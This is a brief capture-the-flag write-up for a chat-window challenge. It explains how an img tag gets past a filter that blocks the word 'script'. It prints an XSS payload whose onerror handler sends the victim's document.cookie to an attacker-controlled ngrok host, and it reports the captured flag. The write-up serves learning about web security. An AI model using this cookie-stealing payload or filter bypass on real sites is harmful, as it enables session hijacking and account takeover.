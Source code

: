 This task gives us a link [https://cwo-xss.web.ctfcompetition.com/](https://cwo-xss.web.ctfcompetition.com/). The website contains a video and a chat window on the right side. It appears that we are chatting with an admin and so it probably requires another xss. However, entering a tag like `<script>` will show up as `HACKER ALERT!`  so it seems that there is some kind check that matches against words like script. Playing around with other tags like `<img>` seem to work however so we can use that instead.

Again, I setup up a ngrok tunnel and used the `onerror` attribute of the `img` tag to send to cookie. This trick I learned about from [https://xss-game.appspot.com/](https://xss-game.appspot.com/)
```html
<img src="?" onerror="document.location='http://???.ngrok.io/?'+document.cookie">
```

Pasting that in the chat window gives us the cookie `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`